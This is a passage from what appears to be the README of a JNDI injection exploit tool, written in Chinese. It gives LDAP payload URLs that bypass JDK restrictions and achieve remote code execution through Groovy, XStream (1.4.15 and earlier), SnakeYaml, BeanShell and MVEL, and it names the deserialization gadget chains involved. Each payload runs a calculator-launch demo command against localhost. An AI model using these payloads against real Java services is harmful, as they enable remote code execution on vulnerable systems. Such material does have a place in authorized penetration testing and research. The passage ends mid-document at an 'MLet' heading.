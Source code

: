 利用 `groovy.lang.GroovyClassLoader` 和 `groovy.lang.GroovyShell` 执行 Groovy 脚本

```bash
# GroovyClassLoader
ldap://127.0.0.1:1389/GroovyClassLoader/Command/open -a Calculator

# GroovyShell
ldap://127.0.0.1:1389/GroovyShell/Command/open -a Calculator
```

### XStream

利用 XStream 反序列化实现 RCE (版本 <= 1.4.15)

反序列化部分使用 UIDefaults + SwingLazyValue 依次触发下列 Gadget:

- 任意文件写: `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename`
- XSLT 加载: `com.sun.org.apache.xalan.internal.xslt.Process._main`

XSLT Payload 部分使用了 Spring 的反射库调用 defineClass, 因此需要依赖 Spring 环境

```bash
# XStream Bypass (依赖 Spring)
# 基于任意文件写 + XSLT 加载, 因为先后顺序问题有概率失败, 需要多试几次
ldap://127.0.0.1:1389/XStream/Command/open -a Calculator
```

### SnakeYaml

利用 SnakeYaml 反序列化实现 RCE

反序列化部分使用 URLClassLoader 加载 `javax.script.ScriptEngineManager` SPI 实现类, 内部会调用 defineClass 进行类加载

```bash
# SnakeYaml Bypass
ldap://127.0.0.1:1389/SnakeYaml/Command/open -a Calculator
```

### BeanShell

利用 `bsh.Interpreter.eval` 执行 BeanShell 脚本

```bash
# BeanShell Bypass
ldap://127.0.0.1:1389/BeanShell/Command/open -a Calculator
```

### MVEL

利用 `org.mvel2.sh.ShellSession.exec` 方法执行 MVEL 表达式

```bash
# MVEL Bypass
ldap://127.0.0.1:1389/MVEL/Command/open -a Calculator
```

### MLet

